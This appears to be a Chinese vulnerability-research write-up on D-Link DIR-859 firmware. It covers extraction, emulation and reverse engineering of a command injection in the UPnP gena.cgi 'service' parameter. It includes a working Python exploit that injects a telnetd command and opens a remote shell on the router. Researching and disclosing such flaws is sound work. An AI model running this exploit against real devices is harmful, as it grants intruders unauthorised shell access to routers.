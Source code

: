 # 基础信息:
固件下载地址:[router_Firmware_collection/DLINK/DIR-859/DIR859Ax_FW105b03.bin at master · nightRainy/router_Firmware_collection (github.com)](https://github.com/nightRainy/router_Firmware_collection/blob/master/DLINK/DIR-859/DIR859Ax_FW105b03.bin)
```c
binwalk -Me DIR859Ax_FW105b03.bin
```
binwalk解压后，并未加密，得到了完整的文件系统
![](image/7a0dfa05f8a54063552fd74490ab3f1f.png)
```c
sudo ./firmwalker-pro-max.sh '/home/iot/Desktop/D-link/DIR859Ax/squashfs-root' > '/home/iot/Desktop/D-link/DIR859Ax/firmwalker-pro-max.txt' 
```
用firmwalker-pro-max脚本跑一下，获取一些可疑或有用的信息
![](image/b06820da913cd3ef9af7732386e907a6.png)
以最典型busybox查看其为32bit的大端序，MIPS架构的固件
```c
file busybox
```
![](image/3e37f3e6af59810999ac61433dcb6e56.png)
并且无保护
```c
checksec --file=busybox
```
![](image/1401a3580b5fcae595f1305c370790fc.png)
# 模拟固件:
用FirmAE模拟
```c
sudo ./run.sh -d DIR859Ax '/home/iot/Desktop/D-link/DIR859Ax/DIR859Ax_FW105b03.bin' 
```
模拟成功
![](image/5e5247c0ca3454302f21568b9a2f3bb5.png)
针对模拟好的服务，对其web目录进行未授权检查，发现诸多疑似未授权界面，点点查看一下
```c
python3 unauth_bypass.py
```
![](image/17ccb7a5b9582be5cde32a71321c1189.png)
查看了一下好像都需要session要不就是提示Authetication Fail!
# 分析固件:
首先在genacgi_main函数中，只要对比为SUBSCRIBE就会进入到sub_410020函数中
也就是说订阅事件
![](image/dd80ea5c03578730bc02659371126b61.png)
进入到sub_410020发现，在sprintf后通过xmldbc_ephp执行了run.NOTIFY.php
![](image/bbdc7e4f56a6f24f21a7af763831a51e.png)
sprintf
第一部分是 "/htdocs/upnp/run.NOTIFY.php"，表示一个脚本的路径。
METHOD=SUBSCRIBE 表示请求的方法。
INF_UID=%s 将被 v2 替代，通常是一个唯一标识符。
SERVICE=%s 将被 a1 替代，表示服务的名称或类型。
SID=%s 将被 v3 替代，表示会话 ID。
TIMEOUT=%d 将被 v20 替代，表示超时设置。
SHELL_FILE=%s/%s.sh 将被 "/var/run" 和 a1 替代，表示要执行的脚本路径。

向上追溯了a1是指url后面”?service=“的参数
![](image/b724ce9b8bd5b0fe5bec6ba14ec2212e.png)
而通过v23把sprintf的内容传入到xmldbc_ephp函数后a3也就是我们要构造的报文，计算了长度又传入了sub_41420C函数中
![](image/10a3c4528be6e50ec075470629d3e7d1.png)
又在sub_413810中处理了a3
![](image/369af473bb3d0a52dc1413dd057ca0c3.png)
而sub_413810中通过send函数发送了数据包给php执行
![](image/cb99a8389eb480c29c1c20fb5f440f26.png)

分析至此我们知道，发送到的php文件就是/htdocs/upnp/run.NOTIFY.php
根据我们要构造的报文发现在run.NOTIFY.php传入SUBSCRIBE后又经过了GENA_subscribe_new函数处理了数据
![](image/9e05c67673a151478d2633a0fa967979.png)
我们去查找一下这个函数是在哪里被定义的，发现是在gena.php中定义
![](image/9a7b6ee123398888c46ee9d32897a758.png)
该函数主要是用于订阅的
![](image/15cf622acaf2671518dec884193776b7.png)
再去关注一下最后两行的两个函数，最终在GENA_notify_init函数中发现，它写了一个名为$shell_file的脚本，又删除了
![](image/592bd4d236fdac7f9260e95792ae6ff7.png)
看到这个参数我突然觉得关注重点应该一直放在这个$shell_file因为只有它相对来说算是我们可控的，结合一开始的sprintf，也知道a1是指url后面”?service=“的参数
![](image/912de7333bd5abd329cfe877d4001e95.png)
那么这么说的话，这个service要执行的文件名我们用反引号扩起就看实现命令执行

# exp:
```python
# -*- coding: utf-8 -*-

import socket
import os
from time import sleep

# 漏洞利用代码
def httpSUB(server, port, shell_file):
    print('\n[*] 连接到 {host}:{port}'.format(host=server, port=port))
    
    # 创建一个 TCP/IP 套接字
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # 构造请求包
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + ":" + str(port) + "\n"
    request += "Callback: <http://192.168.0.1:31337/aaa>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    
    # 打印请求包
    print("[*] 发送负载")
    print("[*] 请求包:")
    print(request)
    
    sleep(1)
    
    # 连接到服务器并发送请求
    con.connect((socket.gethostbyname(server), port))
    con.send(request.encode())
    
    # 接收响应
    results = con.recv(4096)
    
    # 打印响应包
    print("[*] 响应包:")
    print(results.decode())
    
    sleep(1)
    print('[*] 正在运行 Telnetd 服务')
    sleep(1)
    print('[*] 正在打开 Telnet 连接\n')
    sleep(2)
    
    # 打开 Telnet 连接
    os.system('telnet ' + str(server) + ' 9999')

# 获取用户输入并调用函数
serverInput = raw_input('IP 路由器: ')  # 在 Python 2 中使用 raw_input()
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')

```
执行效果
![](image/4798d470fd30051665f60be6d794a794.png)
# Tips:
说实话我还是没太理解这个exp
![](image/c48f1cd1a0112dd0e2898f9d188e3688.png)
抓到的包也没有发现其callback到底是怎么实现了的

# 汇编:
对比gena.cgi，等于则跳到genacgi_main函数
![](image/2d238d6bb238c35a5d4a658a79aab229.png)
![](image/957139e5070031074dd7f29e6fdf5e97.png)
前面获取环境变量，对比?service=等于往下走，再对比SURSCRIBE，等于跳到sub_410020函数
![](image/55b27e8a766bbf88646d8329b41d90b7.png)
s5存放?service=后的内容，也就是漏洞执行的文件名
![](image/10d146f7acf8b53a19eb4f68b3a9eb40.png)
后续通过xmldbc_ephp函数处理，跳转至sub_41420C函数
![](image/ed02724ea97b9b76ec27150bb8fb8b53.png)
前面传入的值放在s4寄存器中，赋值给a2，又跳转到sub_413810函数中
![](image/b018ac153e0b9a7b723aa3a353b9e47d.png)
在函数sub_413810通过send函数发送了数据包给php执行